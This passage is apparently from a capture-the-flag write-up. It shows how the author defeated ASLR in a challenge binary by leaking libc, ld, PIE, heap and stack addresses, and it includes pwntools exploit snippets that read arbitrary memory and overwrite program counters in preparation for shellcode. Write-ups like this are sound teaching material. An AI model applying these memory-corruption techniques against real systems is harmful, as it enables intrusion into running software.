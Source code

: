  Basically, since libc and ld are usually the first few libraries loaded  and due to the way mmap works, libc and ld are almost guaranteed to be  at constant offsets relative to one another. Using the calculated ld  base, we can read _dl_rtld_libname of ld, which holds a pointer in the  .interp section of the binary, thereby leaking PIE. However, no matter  how carefully I set my debugging system to be like the remote one (I  even checked with the creator), my libs loaded weirdly in which after  libc is loaded, part of ld gets loaded, then the entire libseccomp gets  loaded, and then the rest of ld is loaded. This creates issues because  as in the case on remote, all of ld should load together after  libseccomp loads.

 But this discrepancy is easy to fix with everyone's favorite solution:  bruteforcing! We can basically estimate where ld should be loaded if it is loaded only after libseccomp by looking at a few vmmaps and counting the number of memory regions before where ld should be at. Using this  offset as a rough estimate, we can start adding or subtracting 0x1000  since we know ld base will be page aligned. Eventually, the remote  process stopped segfaulting and started to display nulls, and finally, a PIE address came out. Very few people encountered this issue which I  faced. The following snippet goes up to the PIE leak.


```python
 writef('test', 'n')
 viewf()
 temp = p.recvline()
 libcleak = u64(temp.split(': ')[1].split('\n')[0].ljust(8, '\x00'))
 libc.address = libcleak - 0x3b5be0
 log.info("main arena leak: " + hex(libcleak))
 log.info("libc base: " + hex(libc.address))
 ld.address = 6250496+(0x1000*12)+libc.address
 log.info("ld base: " + hex(ld.address))
 view(ld.symbols['_dl_rtld_libname'])
 temp = p.recvline()
 pieleak= int(temp.split(': ')[1].split('\n')[0], 16)
 bin.address = pieleak - 2109440 + 2108872
 log.info("pie base: " + hex(bin.address))
```

 After leaking PIE base, we can do one write to overwrite the read and  write values so we get practically a lot of them. Read and write values are both signed ints within the same 8 byte block, so we can use write  to make both of them a somewhat large negative number.


```python
 write(bin.address + 0x202030, "0xffffffa8ffffffa8")
```

 Now, with a ton of reads, we can trivially leak heap addresses with a  main arena address and trivially leak the stack address with environ. I also used the write to zero out the feedback pointer to make another  allocation for shellcoding purposes (we could also do this with the  first allocation originally).


```python
 view(libcleak)
 temp = p.recvline()
 heapleak = int(temp.split(': ')[1].split('\n')[0], 16)
 log.info("heap leak: " + hex(heapleak))
 view(libc.symbols['environ'])
 temp = p.recvline()
 stackleak = int(temp.split(': ')[1].split('\n')[0], 16)
 log.info("stack leak: " + hex(stackleak))
 write(bin.address+0x202038, "0x0")
```
